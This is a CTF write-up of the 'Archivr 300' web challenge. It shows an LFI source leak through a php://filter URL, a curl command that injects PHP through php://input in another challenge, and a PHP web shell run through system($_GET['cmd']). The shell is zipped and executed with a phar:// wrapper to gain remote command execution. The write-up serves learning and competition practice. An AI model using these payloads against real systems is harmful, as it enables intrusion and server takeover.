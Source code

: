 # Archivr 300

My team solved all the other web challenges. This was the only one left.

We did not solve this challenge during the CTF because I'm stupid and forgot how regex work :))))))).

Anyways I think it will make for a good writeup anyways. Enjoy.

![alt text](1.png "Chall")

## Recon

![alt text](2.png "Upload")

We can upload any file we want. Lets try upload shell.php

![alt text](4.png "Download")

The extension gets removed and replaced with .dat.

![alt text](3.png "Download")

We can dowload the file here if we enter `1542616333.dat`

Okay let's try some more extensions and figure out which ones are useful.

![alt text](5.png "Download")

Left side is upload filename, right side is filename returned by server.

Moving on. Not much else to do here as the file is just returned to us and not displayed.

## Dirb
Running dirb we get some new paths.

![alt text](6.png "Download")

Cool, we have found the upload directory. Let's see if we can browse our file.

```
/uploads/1542616333.dat (404)
```

Okay maybe that's not the correct folder.

## Exploiting LFI Wrappers
Using this payload we can view the source code of the upload.php file as the input is not sanitized correctly.

`http://fun.ritsec.club:8004/index.php?page=php://filter/convert.base64-encode/resource=upload`

![alt text](11.png "Download")

Decoding the base64 we get:

![alt text](7.png "Download")

This is the code for the download page:

![alt text](8.png "Download")


So the upload folder is
```
uploads/md5(REMOTE_ADDR)/md5(time()).ext
```
## The hunt for the REMOTE_ADDR IP
In PHP `$_SERVER['REMOTE_ADDR']` returns the IP address in the format X.X.X.X of the user visiting the website.

What's different with this challenge is that the server is running inside docker (most likely) and behind a reverse proxy.

![alt text](apache404.png "Download")

If we visit a page that does not exist. We see that the web server is running apache.

![alt text](nginx.png "Download")

But if we view the header of the request it says nginx.

me ---> nginx (port 8003) ---- > apache (port 80)

Let's try some obvious ones as IP:
```
127.0.0.1
my remote ip
0.0.0.0
54.166.0.85 (ip of ritsec website)
```

None of these worked.... Bruteforce is not a option as we don't know in which range the ip is located.
### Wild idea: Spoofing The X-Forwarded-For (XFF) HTTP header field
I tried to add a header field with a custom IP to see if we can spoof remote address. This did not work and I never expected it to work.

```
X-Forwarded-For: 127.0.0.1
```

### Thinking outside the box: Exploiting another challenge
Remember how we had command injection in Lazy Dev. We know the setup of the CTF should be very similar.

```
curl -d "<?=phpinfo();?>" -X POST http://fun.ritsec.club:8007/devsrule.php?magic=php://input
```
![alt text](9.png "Download")

Remote address of lazy dev is `10.0.10.254`.

Maybe it's the same for Archivr.

![alt text](10.png "Download")

Yaayy! We've found something. Instead of a 404 we get a forbidden (403).

## Create a payload
payload.php
```php
<?php

echo "win";

echo system($_GET["cmd"]);
```
payload.zip
```bash
$ zip payload.zip payload.php
```

Okay we got our payload that we should upload.

Now lets construct the URL.
We know from the recon phase we can't upload a .php file as it will be replaced with .dat.

To run PHP code we can upload a zip and use zip/phar wrappers to extract the zip and run the php file.

Now putting everything together we get:

`
http://fun.ritsec.club:8004/index.php?page=phar://uploads/md5(10.0.10.254)/md5(time()).zip/payload&cmd=ls -lha
`

And the final payload

`
http://fun.ritsec.club:8004/index.php?page=phar://uploads/98d3cbed97b0bc491c000455c9f8e6fb/48be30ab27aa9abc81fe735005f0e601.zip/payload&cmd=ls%20-lha`

![alt text](win.png "Download")

Now finding the flag should be quite easy. Just modify the cmd command!



Here's my python script I used: [solve.py](solve.py)

Hope you learnt something. I sure did :)
